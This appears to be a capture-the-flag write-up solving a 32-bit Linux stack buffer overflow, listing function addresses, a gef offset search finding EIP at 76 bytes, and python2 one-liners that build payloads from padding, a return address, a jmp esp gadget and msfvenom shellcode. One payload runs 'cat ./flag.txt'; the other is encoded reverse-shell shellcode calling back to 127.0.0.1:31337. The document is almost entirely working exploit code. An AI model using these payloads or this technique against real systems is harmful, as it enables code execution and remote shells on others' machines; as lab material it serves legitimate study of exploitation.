 ### SOLVE

// Locate win-function, control EIP, find jump-point (jmp esp)
```as
0x08049192  secret_function		'\x92\x91\x04\x08'
0x080491a4  receive_feedback	'\xa4\x91\x04\x08'
0x080491dd  main				'\xdd\x91\x04\x08'

gef➤  pattern create
..snip..

gef➤  pattern offset $eip
[+] Searching for '74616161'/'61616174' with period=4
[+] Found at offset 76 (little-endian search) likely


```
// Create payload
```shell


``` 
// Create Payload
// msfvenom -p linux/x86/exec CMD='cat ./flag.txt' -f c -b '\x00'
```shell
python2 -c "print('A' * 76 + '\x92\x91\x04\x08' + '\x9f\x91\x04\x08' + '\xda\xc9\xb8\x43\xef\x24\x0e\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x0d\x31\x43\x19\x03\x43\x19\x83\xc3\x04\xa1\x1a\x4e\x05\x7d\x7c\xdd\x7f\x15\x53\x81\xf6\x02\xc3\x6a\x7a\xa4\x14\x1d\x53\x56\x7c\xb3\x22\x75\x2c\xa3\x3a\x79\xd1\x33\x26\x18\xa5\x13\x86\xf5\x23\x38\xb7\x6e\x82\xb4\x4f\x04\xda\x63\xe3\x6d\x3b\x46\x83')" > payload.bin
```
// Create payload (reverse shell)
// msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=31337 -f c -b '\x00'
```shell
// [padding + secret_function + jmp esp + shellcode]
python2 -c "print('A' * 76 + '\x92\x91\x04\x08' + '\xdb\xc3\xbb\x84\x67\xf9\xa1\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x12\x31\x5a\x17\x83\xc2\x04\x03\xde\x74\x1b\x54\xef\xa1\x2c\x74\x5c\x15\x80\x11\x60\x10\xc7\x56\x02\xef\x88\x04\x93\x5f\xb7\xe7\xa3\xe9\xb1\x0e\xcb\x96\x41\xf1\x0a\x01\x40\xf1\x1d\x8d\xcd\x10\xad\x4b\x9e\x83\x9e\x20\x1d\xad\xc1\x8a\xa2\xff\x69\x7b\x8c\x8c\x01\xeb\xfd\x5d\xb3\x82\x88\x41\x61\x06\x02\x64\x35\xa3\xd9\xe7')" > payload.shell
```